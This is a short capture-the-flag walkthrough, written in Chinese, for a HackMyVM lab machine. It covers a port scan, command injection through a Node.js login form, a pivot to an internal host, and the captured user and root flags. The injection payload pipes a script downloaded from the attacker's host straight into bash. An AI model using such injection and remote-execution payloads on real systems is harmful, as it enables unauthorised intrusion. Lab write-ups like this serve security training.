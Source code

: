 # Azer

2024-11-03 https://hackmyvm.eu/machines/machine.php?vm=Azer

## IP

192.168.5.40

## Scan

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: L&#214;SEV | L&#246;semili &#199;ocuklar Vakf\xC4\xB1
3000/tcp open  http    Node.js (Express middleware)
|_http-title: Login Page
```

80 端口对应的 web 应用没找到利用点，看看 3000 的 nodejs 服务。首页是个登陆窗口，输入 1 和 1 发现会把参数传递到 sh 脚本执行：

```
Error executing bash script: Command failed: /home/azer/get.sh 1 1 fatal: not a git repository (or any of the parent directories): .git
```

可以实现命令注入，用;号分割

```
username=;curl+http://192.168.5.3/5.3/8888.sh|bash;&password=root
```

在 /home/azer 得到了 user flag：

```
azer@azer:~$ cat user.txt
0d2856d69dc348b3af80a0eed67c7502
```

继续提权到 root，peash 没发现提权路径，发现了另外一个内部网络：10.10.10.0/24 ，上传 nmap static file 进行扫描看是否能找到其他内部主机，发现另外一个存活的主机：10.10.10.10，对其端口扫描发现开放 80 端口,看看端口上显示什么：

```
azer@azer:~$ curl http://10.10.10.10
.:.AzerBulbul.:.
```

没发现其他目录或者文件，上面这串字符串也有可能是密码，尝试看看是不是 root 的密码，尝试成功，最后获得了 root flag：

```
root@azer:~# cat root.txt
b5d96aec2d5f1541c5e7910ccab527d8
```
